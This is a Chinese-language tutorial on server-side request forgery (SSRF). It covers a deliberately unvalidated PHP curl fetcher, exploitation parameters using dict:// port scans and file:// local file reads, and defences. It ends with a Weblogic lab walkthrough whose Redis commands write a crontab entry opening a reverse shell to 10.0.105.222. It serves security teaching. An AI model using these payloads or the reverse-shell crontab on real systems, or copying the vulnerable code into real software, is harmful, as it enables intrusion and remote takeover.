 # SSRF 概述及其危害

## SSRF概述

互联网上的很多Web应用提供了从其他服务器（也可以是本地）获取数据的功能。使用用户指定的URL，Web应用可以获取图片、文件资源（下载或读取）。

用户可以从本地或者URL的方式获取图片资源，交给百度识图处理。如果提交的是URL地址，该应用就会通过URL寻找图片资源。如果Web应用开放了类似于百度识图这样的功能，并且对用户提供的URL和远端服务器返回的信息没有进行合适的验证或者过滤，就可能存在“请求伪造”的缺陷。请求伪造，顾名思义就是攻击者伪造正常的请求，以达到攻击的目的，是常见的Web安全漏洞之一。如果“请求伪造”发生在服务器端，那么这个漏洞就叫做“服务器端请求伪造”，英文名字为Server-Side Request Forgery,简称SSRF。

SSRF（Server-Side Request Forgery，服务器端请求伪造）是一种攻击者发起的伪造由服务器端发起请求的一种攻击，也是常见Web安全漏洞（缺陷或者风险）之一。

## SSRF危害

@ 端口扫描
@ 内网web应用指纹识别
@ 攻击内网web应用
@ 读取本地文件

## SSRF常见代码实现

再服务器端实现通过URL从服务器（外部或者内部）获取资源功能的方法有很多，此处使用PHP语言和curl扩展实现改功能

通过phpinfo()函数查看对curl扩展的支持，现在大部分wamp套件均支持curl扩展

服务器端代码如下

```
<?php
if (isset($_REQUEST['url']))
{
    $link = $_REQUEST['url'];
    $filename = './curled/'.time().'.txt';
    $curlobj = curl_init($link);
    $fp = fopen($filename,"w");
    curl_setopt($curlobj,CURLOPT_FILE,$fp);
    curl_setopt($curlobj,CURLOPT_HEADER,0);
    curl_setopt($curlobj,CURLOPT_FOLLOWLOCATION,TRUE);
    curl_exec($curlobj);
    curl_close($curlobj);
    fclose($fp);
    $fp = fopen($filename,"r");
    $result = fread($fp, filesize($filename));
    fclose($fp);
    echo $result;
}else{
    echo "?url=[url]";
}
?>
```

将以上代码保存成文件[ssrf_curl.php]。该段代码实现了从服务器获取资源的基本功能，
提交
[?url=http://www.baidu.com]
页面就会载入百度首页的资源

同时，获取的资源文件会保存在[./curled]中，并以发起请求时间的unix时间戳命名。

## SSRF利用

- 访问正常文件

访问正常的文件，提交参数[?url=http://www.baidu.com/robots.txt]

- 端口扫描(扫描内网的机器的端口)

当访问未开放端口，脚本会显示空白或者报错。提交参数[?url=dict://127.0.0.1:1234] //字典协议

当访问开放端口时，脚本会显示banner信息。
提交参数[?url=dict://172.16.132.160:22]（有成功率）
提交参数[?url=dict://127.0.0.1:3306]
提交参数[?url=dict://127.0.0.1:21]

- 读取系统本地文件

利用file协议可以任意读取系统本地文件，提交参数
[?url=file://c:\windows\system32\drivers\etc\hosts]

- 内网Web应用指纹识别

识别内网应用使用的框架，平台，模块以及cms可以为后续的渗透测试提供很多帮助。大多数web应用框架都有一些独特的文件和目录。通过这些文件可以识别出应用的类型，甚至详细的版本。根据这些信息就可以针对性的搜集漏洞进行攻击。

比如可以通过访问下列文件来判断phpMyAdmin是否安装以及详细版本
[?url=http://localhost/phpmyadmin/README]

- 攻击内网应用

内网的安全通常都很薄弱，溢出、弱口令等一般都是存在的。通过ssrf攻击，可以实现对内网的访问，从而可以攻击内网应用或者本地主机，获得shell，这里的应用包括服务、Web应用等。

仅仅通过get方法可以攻击的web应用有很多，比如struts2命令执行等。

weblogic 从 ssrf 到 redis 未授权访问到getshell
  redis数据库
    未授权访问        不需要用户名和密码就可以访问数据库，读写文件

## SSRF漏洞的挖掘

对外发起网络请求的地方都可能存在SSRF漏洞，列举图片加载，分享页面，在线翻译，未公开的api（从远程服务器请求资源文件处理，编码处理，属性信息处理等）

## SSRF的防御

@ 限制协议

仅允许http和https请求

@ 限制IP

避免应用被用来获取内网数据，攻击内网

@ 限制端口

限制请求的端口为http常用的端口，比如 80,443,8080,8090

@ 过滤返回信息

验证远程服务器对请求的响应是比较简单的方法

@ 统一错误信息

避免用户可以根据错误信息来判断远端服务器的端口状态

# Weblogic 从 ssrf 到 getShell

依赖于docker技术
docker-compose up -d 启动两个docker镜像
docker ps
docker exec -it 3963de188db5 "/bin/bash"

linux      
   crontab           计划任务

访问weblogic
  http://ip:7001

存在SSRF 漏洞

redis数据库
  未授权访问 访问redis数据库的时候，不需要提供用户名和密码
  具有root权限
  读写文件
    语法
```
set 1 "\n\n\n\n* * * * * root bash -i >& /dev/tcp/10.0.105.222/777 0>&1\n\n\n\n"
config set dir /etc/
config set dbfilename crontab
save
```
  读写计划任务文件crontab
  反弹shell到指定地址

getshell
